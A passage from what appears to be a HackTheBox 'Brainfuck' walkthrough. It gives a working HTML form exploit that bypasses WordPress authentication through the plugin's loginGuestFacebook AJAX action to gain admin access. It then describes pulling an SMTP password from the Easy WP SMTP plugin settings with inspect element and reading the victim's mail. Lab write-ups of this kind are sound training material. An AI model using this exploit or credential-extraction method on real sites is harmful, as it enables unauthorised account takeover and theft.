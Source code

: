 Next, we going to make new html file and use the code from searchsploit to login as admin in Wordpress site. Copy this code, edit the value of `value="administrator"` and `action="http://wp/wp-admin/admin-ajax.php"`
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

After that, open this on browser and we will get this kind of output.


![6755bd752586505ae6f13aa524d14d7b.png](/images/htb/brainfuck/5e2c170cd21b4fd395da789474a2988e.png)


Press login and we will open the brainfuck.htb site with us logged in as admin. 



![caf431667d5f651972e60fa3accf1564.png](/images/htb/brainfuck/32de80cdd62b4c97972ca95afe7889c7.png)

Since we have SMTP, POP3 and IMAP, we going to find the setup on Wordpress plugin. Hover the cursor to Brainfuck Ltd and click theme. After that, click Plugins and we will find `Easy WP SMTP`



![4ffca760db221ca0dbcfc1f3469afc21.png](/images/htb/brainfuck/515675597d84425baee7a5f8ccaf0139.png)


There is a setup with password here. We can use inspect elements to get the password. 



![6ff34be3530da115fb096509c105dfab.png](/images/htb/brainfuck/ce44d837b4e1484b824b5eadd629bcfc.png)


Next, we going to setup `orestis@brainfuck.htb` email on our mail client as follows. 



![7e5d97cd3a746c81380ef234383fe386.png](/images/htb/brainfuck/03b321f1ab424dfb9c1df4b51d7c4d7d.png)



![62e20e750cc1719da26c2155c15325ad.png](/images/htb/brainfuck/78305314e3164f2397fc6a7fcc925abb.png)



![d9b570b04f75dddb6ef4e0427efaf3b4.png](/images/htb/brainfuck/7ec3a38ce14440f0bc90cc37f7aef755.png)




![b73babcc201fa896e6438e66167378b7.png](/images/htb/brainfuck/1cd0b78dbb4a48ccbc20335b8a0db1a4.png)



![4aa28097ee1d1527420100ef3e39d901.png](/images/htb/brainfuck/a3dd26a323324338ad9c13d0aa04b055.png)
